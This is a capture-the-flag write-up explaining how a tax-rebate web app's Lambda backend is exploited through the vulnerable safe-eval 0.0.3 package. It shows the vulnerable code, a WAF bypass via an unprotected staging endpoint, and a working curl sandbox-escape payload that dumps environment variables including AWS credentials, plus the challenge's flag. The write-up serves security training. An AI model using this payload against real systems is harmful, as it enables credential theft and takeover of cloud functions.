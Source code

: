 # Hold the line! Perimeter defences doing it's work!

> Points: 1991 [2000]

## Description

> Apparently, the lead engineer left the company (“Safe Online Technologies”). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle c0v1d-agent-1. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!
> 
> [Tax Rebate Checker](http://33woq.tax-rebate-checker.cf/)
> 
> Extract the flag value and submit in the correct format! - govtech-csg{extracted_value}
> 
> Note that cors-anywhere.herokuapp.com is not our domain. It's simply a free service. Please do not attack that domain!
> 
> This challenge:
> - Is eligible for Awesome Write-ups Award
> - Prerequisite for Mastery Award - Cloud Guru

## Solution

![](website.png)

As the name says, it is a website that help us calculate our tax rebate using our age and annual salary. Each time we submit the form, our data gets posted to `https://cors-anywhere.herokuapp.com/https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`. The reason there is 2 URLs appended to each other is because the request is being proxied through `https://cors-anywhere.herokuapp.com/` and the `CORS` headers are added to the response so that the browser will process the data from `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

Therefore, the URL that we should be targetting is `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

According to the description, `c0v1d-agent-1` is the online handle that the engineer used. With a bit of googling, I found his [Github](https://github.com/c0v1d-agent-1) as well as the relevant [repository](https://github.com/c0v1d-agent-1/tax-rebate-checker).

Below is the vulnerable code that is being used in [`index.js`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js):

```javascript
...
            let body = JSON.parse(event.body);
            // Secret Formula
            let context = {person: {code: 3.141592653589793238462}};
            let taxRebate = safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
            responseBody = {
                    results: taxRebate
            };
...
```

Essentially, it decodes the `age` and `salary` field in base64 and encodes them to `ascii` before evaluating them with `safeEval()`.

According to the [`package.json`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/package.json), the version of `safe-eval` package that was being used is `0.0.3`, which was found to be vulnerable according to this [article](https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/). 

Another thing to note that was the presense of WAF (Web Application Firewall) on the `prod` setup as seen from this [issue](https://github.com/c0v1d-agent-1/tax-rebate-checker/issues/1). However, the issue also cited of a `staging` setup which did not have the WAF attached. 

Using `curl`, I was able to replicate the request but I instead sent the request to `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker` to see if the `staging` might still be there and indead, it was.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"Mg==","salary":"MTIz"}'
{"results":388.41589639154455}                                                                                                                                      
```

With these knowledge of the vulnerable `safe-eval` package and the WAF-absent `staging` setup, we set off to extract the environment variables of the `lambda` function as it would contain the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and the `AWS_SESSION_TOKEN` which are required for us to takeover the `lambda` function.

Our final payload was the base64 encoded version of `this.constructor.constructor('return process')().env;//`, which instantly revealed the flag in the environment variables.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"dGhpcy5jb25zdHJ1Y3Rvci5jb25zdHJ1Y3RvcigncmV0dXJuIHByb2Nlc3MnKSgpLmVudjsvLw==","salary":"MTIz"}' | python3 -m "json.tool"
{
    "results": {
        "AWS_ACCESS_KEY_ID": "[REDACTED]",
        "AWS_DEFAULT_REGION": "ap-southeast-1",
        "AWS_EXECUTION_ENV": "AWS_Lambda_nodejs12.x",
        "AWS_LAMBDA_FUNCTION_MEMORY_SIZE": "128",
        "AWS_LAMBDA_FUNCTION_NAME": "cat-2-tax-rebate-checker",
        "AWS_LAMBDA_FUNCTION_VERSION": "$LATEST",
        "AWS_LAMBDA_INITIALIZATION_TYPE": "on-demand",
        "AWS_LAMBDA_LOG_GROUP_NAME": "/aws/lambda/cat-2-tax-rebate-checker",
        "AWS_LAMBDA_LOG_STREAM_NAME": "2020/12/08/[$LATEST]e125e7130aac44e591b6c02012a50176",
        "AWS_LAMBDA_RUNTIME_API": "127.0.0.1:9001",
        "AWS_REGION": "ap-southeast-1",
        "AWS_SECRET_ACCESS_KEY": "[REDACTED]",
        "AWS_SESSION_TOKEN": "[REDACTED]",
        "AWS_XRAY_CONTEXT_MISSING": "LOG_ERROR",
        "AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2:2000",
        "LAMBDA_RUNTIME_DIR": "/var/runtime",
        "LAMBDA_TASK_ROOT": "/var/task",
        "LANG": "en_US.UTF-8",
        "LD_LIBRARY_PATH": "/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib",
        "NODE_PATH": "/opt/nodejs/node12/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task",
        "PATH": "/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin",
        "PWD": "/var/task",
        "SHLVL": "0",
        "TZ": ":UTC",
        "_AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2",
        "_AWS_XRAY_DAEMON_PORT": "2000",
        "_HANDLER": "index.handler",
        "_X_AMZN_TRACE_ID": "[REDACTED]",
        "flag": "w3_Ar3_L00kinG_@t_Ap1"
    }
}

```

## Flag
`govtech-csg{w3_Ar3_L00kinG_@t_Ap1}`